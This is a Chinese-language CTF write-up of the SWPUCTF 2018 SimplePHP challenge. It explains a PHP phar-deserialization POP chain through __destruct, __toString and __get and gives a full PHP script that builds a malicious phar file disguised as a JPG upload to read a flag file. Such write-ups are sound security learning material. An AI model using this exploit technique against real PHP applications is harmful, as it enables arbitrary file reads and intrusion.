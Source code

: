 ```yaml
---
title: '[SWPUCTF 2018]SimplePHP'
author: Troy3e
avatar: 'https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/avatar.jpg'
authorAbout: steamID：888007034
authorDesc: 'Blizzard：TroyeSivan#51769'
categories: 技术
comments: true
date: 2020-09-13 19:30:05
authorLink:
tags:
keywords:
description:
photos: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/37775.jpg
---
```

[SWPUCTF 2018]SimplePHP--phar的反序列化
做到了读取源码那一步，上传基本都试了没法绕过，反序列化也没有unserialize，不会做了。看了wp知道是phar的反序列化，之前没遇到过，还能接受QAQ。

http://932b924e-67a5-4d83-8b68-ee01c9ca4a5c.node3.buuoj.cn/file.php?file=function.php
function.php

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/97.png)

class.php

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/100.png)

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/102.png)

构造pop链
首先是找使链触发得魔术方法。
C1e4r类中有__destruct(),

__destruct()是PHP中的析构方法，在对象被销毁时被调用，程序结束时会被自动调用销毁对象。

函数中发现了echo，那么要利用echo $this->test。

public function __destruct()
{
   $this->test = $this->str;
   echo $this->test;
}

show类有__toString(),

__toString方法在将一个对象转化成字符串时被自动调用，比如进行echo，print操作时会被调用并返回一个字符串。

利用$this->str['str']->source;

public function __toString()
{
   $content = $this->str['str']->source;
   return $content;
}

Test类有__get（）

__get（）当未定义的属性或没有权限访问的属性被访问时该方法会被调用。

利用 $this->get --> $this->file_get($value); -->base64_encode(file_get_contents($value));

public function __get($key)
{
   return $this->get($key);
		
}
public function get($key)
{
   if(isset($this->params[$key])) {
            $value = $this->params[$key];
		} else {
            $value = "index.php";
        }
        return $this->file_get($value);
}
public function file_get($value)
{
       $text = base64_encode(file_get_contents($value));
       return $text;
}

其中调用了file_get_contents($value)函数的file_get函数很重要，一般看到调用了file_get_contents就可以认为这个是pop链的结束。

public function file_get($value)
{
       $text = base64_encode(file_get_contents($value));
       return $text;
}

整个pop链触发

C1e4r::destruct() --> Show::toString() --> Test::__get() 。

根据pop链构造exp

<?php
class C1e4r
{
    public $test;
    public $str;
}

class Show
{
    public $source;
    public $str;
}
class Test
{
    public $file;
    public $params;

}

$c1e4r = new C1e4r();
$show = new Show();
$test = new Test();
$test->params['source'] = "/var/www/html/f1ag.php";
$c1e4r->str = $show;   //利用  $this->test = $this->str; echo $this->test;
$show->str['str'] = $test;  //利用 $this->str['str']->source;


$phar = new Phar("exp.phar"); //.phar文件
$phar->startBuffering();
$phar->setStub('<?php __HALT_COMPILER(); ? >'); //固定的
$phar->setMetadata($c1e4r); //触发的头是C1e4r类，所以传入C1e4r对象
$phar->addFromString("exp.txt", "test"); //随便写点什么生成个签名
$phar->stopBuffering();

?>

本地生成exp.phar，抓包改成jpg上传。

访问/uplaod/可以直接看到文件名称不用去自己拼。

包含上传的文件

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/107.png)

得到flag。

